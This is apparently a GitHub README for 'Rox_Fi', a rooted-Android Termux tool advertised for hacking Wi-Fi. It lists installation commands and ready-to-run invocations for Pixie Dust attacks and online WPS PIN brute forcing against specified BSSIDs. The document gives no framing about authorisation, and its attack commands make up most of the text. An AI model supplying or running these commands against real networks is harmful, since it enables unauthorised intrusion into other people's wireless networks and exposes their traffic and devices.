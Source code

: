 ## Rox_Fi

### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://d.top4top.io/p_2169ndpcg0.jpg"></p>

### Installation :

```bash
pkg upgrade
pkg update
termux-setup-storage
pkg install python3

 apt update && apt upgrade

 pkg install -y root-repo

 pkg install -y git tsu python wpa-supplicant pixiewps iw

 git clone https://github.com/shuvo880/Roxfi

 cd Roxfi

 chmod +x roxfi.py

 sudo python roxfi.py --help

```

#### Example : `sudo python roxfi.py -i wlan0 -K`

#### Note: 

**First turn off your Wifi.**

- Show avaliable networks and start Pixie Dust attack on a specified network.

- `sudo python roxfi.py -i wlan0 -K`

- - Start Pixie Dust attack on a specified BSSID:

`sudo python roxfi.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`

- Launch online WPS bruteforce with the specified first half of the PIN:

- `sudo python roxfi.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`

### Troubleshooting

**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

